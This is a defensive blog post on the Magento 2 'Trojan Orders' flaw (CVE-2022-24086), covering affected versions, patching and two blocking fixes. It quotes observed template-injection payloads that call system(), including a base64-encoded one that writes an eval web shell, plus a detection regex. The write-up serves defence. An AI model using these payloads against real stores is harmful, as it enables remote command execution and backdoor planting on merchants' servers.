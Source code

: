 ```yaml
---
title: "Magento Trojan Orders (CVE-2022-24086) - addAfterFilterCallback"
description: "Magento 2 Trojan Orders (CVE-2022-24086) are back, lets talk about how to patch so we are safe. And other identifiers aside from addAfterFilterCallback"
date: 2024-08-16T11:30:00+00:00
tags: ["magento2", "security", "devsecops", "magento-cloud", "adobe-commerce"]
author: "Me"
draft: false
banner_image: "trojan-order.jpg"
banner_image_alt: "Trojan Horse"
---
```


So it appears the Magento 2 Trojan order exploit (CVE-2022-24086) is making the rounds again. With the recent rise in exploit attempts I am going to go out on a whim, and assume the exploit kit was recently sold/released again. Trojan Order was identified and patched back at the start of 2022.

The relevant security Bulletin is APSB22-12. It states versions 2.3.0 to 2.3.3 are not affected but any other versions below 2.4.3-p1 and 2.3.7-p2 are. https://helpx.adobe.com/security/products/magento/apsb22-12.html


## What is a Trojan Order / How do we know if we are affected?

Typically in most requests I have seen, a common function they all use is `addAfterFilterCallback`. I've listed some examples below. Note, if a strange looking order comes in and its missing the `addAfterFilterCallback`. That does NOT mean its not a probe.

```
{{var this.getTemplateFilter().filter(dummy) }}{{var this.getTemplateFilter().addAfterFilterCallback(base64_decode).addAfterFilterCallback(system)filter(bHMgLWFs3001 W OLD YANKTON RD)}},

{{var this.getTemplateFilter().filter(foobar)}}{{var this.getTemplateFilter().addAfterFilterCallback(system).filter(pwd)}}

{{var this.getTemplateFilter().filter(dummy) }}{{var this.getTemplateFilter().addAfterFilterCallback(base64_decode).addAfterFilterCallback(system)filter(bHMgLWFs 3001 W OLD YANKTON RD )}}, California, 94123 United States

if this.getTemplateFilter().filter(dummy)/if errorif this.getTemplateFilter().addAfterFilterCallback(base64_decode).addAfterFilterCallback(system).Filter(Y2QgcHViO2VjaG8gJzw/cGhwIGVjaG8gIk9LIjtAZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsicXdxIl0pKTsgJyA+IGhlYWx0aF9jaGVjay5waHA=)m/if
```

## How do we patch Trojan Orders?
Ensure you are one a version of Magento between 2.3.0 to 2.3.3 or newer than 2.4.3-p1 and 2.3.7-p2. Although I would recommend if you behind, to update to the latest release. As there will be a bunch of other vulnerabilities with your installation.

## Trojan orders are still coming through despite being patched
The Magento patch, resolves the vulnerability that trojan orders was exploiting. But it does not attempt to stop the orders being placed. So some merchants are ending up with a large amount of unactionable probe orders in the admin panel.

Currently there are two leading solutions to stop this, the quick and dirty way by [Sansec](https://sansec.io). And the more concrete way by [DeployEcommerce](https://github.com/DeployEcommerce/).

### Quick and Dirty
In the original write up on [Trojan Orders by Sansec](https://sansec.io/research/trojanorder-magento), they include a emergency fix towards the bottom, which involves adding a single if conditions to the top of the `bootstrap.php` file. (NB. They include similar emergency fixes in a fair few of their research posts around new vulnerabilities)

As usual from Sansec, their fix involves doing a regex match on stdin and returning a 503 error.
(Note: Maybe a `stripos` call would be a bit more performant here?).

It is really simple to add and does not require any downtime to apply, which is great. Simply, you just edit `app/bootstrap.php` and add the following code block at the very top.
```php
if(preg_match('/addafterfiltercallback/si', preg_replace("/[^A-Za-z]/", '', urldecode(urldecode(file_get_contents("php://input")))))) {
    header('HTTP/1.1 503 Service Temporarily Unavailable');
    header('Status: 503 Service Temporarily Unavailable');
    exit;
}
```

### Concrete
Whilst the quick and dirty solution is great and easy to implement. It is running on every request, REST, GraphQL, Admin, PDP, PLP etc etc Which is a waste since we are not particularly worried about this exploit on a CMS page view.

So DeployEcommerce have release a [Standalone module](https://github.com/DeployEcommerce/module-trojan-order-prevent) targeted at helping stop Trojan Orders, which has a fair bit of moment behind it. Its purpose to to identify and drop these probe orders via a plugin around the Shipping and Billing address management interfaces.

Getting this live, is a simple module install and deploy procedure.
